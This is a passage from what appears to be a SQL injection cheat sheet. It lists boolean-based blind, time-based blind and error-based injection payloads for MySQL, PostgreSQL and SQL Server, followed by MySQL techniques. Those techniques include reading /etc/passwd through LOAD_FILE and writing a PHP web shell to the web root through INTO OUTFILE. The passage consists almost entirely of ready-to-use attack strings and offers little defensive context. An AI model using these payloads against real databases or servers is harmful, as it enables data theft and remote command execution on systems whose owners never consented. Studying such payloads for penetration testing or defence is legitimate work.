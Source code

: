 ### 2. Boolean-Based Blind Injection

Infer information based on application behavior changes.

```sql
-- Test for vulnerability
' AND 1=1--  (normal response)
' AND 1=2--  (different response)

-- Extract data character by character
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a'--
```

### 3. Time-Based Blind Injection

Use time delays to extract information when no visible changes occur.

```sql
-- MySQL
' AND IF(1=1,SLEEP(5),0)--

-- PostgreSQL
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--

-- SQL Server
'; IF (1=1) WAITFOR DELAY '00:00:05'--
```

### 4. Error-Based Injection

Leverage error messages to extract data.

```sql
-- MySQL using ExtractValue
' AND ExtractValue(1,CONCAT(0x7e,(SELECT version()),0x7e))--

-- MySQL using UpdateXML
' AND UpdateXML(1,CONCAT(0x7e,(SELECT user()),0x7e),1)--
```

## Database-Specific Techniques

### MySQL

```sql
-- Version detection
' AND @@version LIKE '8%'--

-- File reading (requires FILE privilege)
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3--

-- File writing
' UNION SELECT 1,2,'<?php system($_GET["c"]); ?>' INTO OUTFILE '/var/www/shell.php'--

-- Information gathering
' UNION SELECT 1,schema_name,3 FROM information_schema.schemata--
```
